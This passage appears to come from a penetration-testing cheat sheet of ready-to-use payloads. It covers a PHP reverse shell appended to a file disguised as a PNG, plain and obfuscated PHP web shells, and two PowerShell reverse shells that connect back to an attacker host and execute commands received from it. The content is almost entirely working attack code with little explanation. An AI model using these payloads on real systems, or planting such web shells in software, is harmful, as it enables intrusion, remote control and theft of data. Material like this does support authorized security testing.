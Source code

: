 ```c
$ echo '<?php passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/f"); ?>' >> shell.php.png
```

## PHP Web Shell

### Common Payloads

```c
<?php system($_GET['cmd']); ?>
<?php passthru($_REQUEST['cmd']); ?>
<?php echo exec($_POST['cmd']); ?>
<?php echo passthru($_GET['cmd']); ?>
<?php echo system($_REQUEST['shell']): ?>
```

### Sanity Check

```c
<?php echo "test";?>
```

### Alternative Web Shells

```c
<?=$_GET[0]?>
<?=$_POST[0]?>
<?={$_REQUEST['_']}?>
```

```c
<?=$_="";$_="'";$_=($_^chr(4*4*(5+5)-40)).($_^chr(47+ord(1==1))).($_^chr(ord('_')+3)).($_^chr(((10*10)+(5*3))));$_=${$_}['_'^'o'];echo$_?>
```

```c
<?php echo(md5(1));@system($_GET[0]);?>
```

> http://<RHOST>/<FILE>.php?0=<COMMAND>

## PowerShell Reverse Shell

```c
$client = New-Object System.Net.Sockets.TCPClient('<LHOST>',<LPORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```c
$ powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<LHOST>',<LPORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
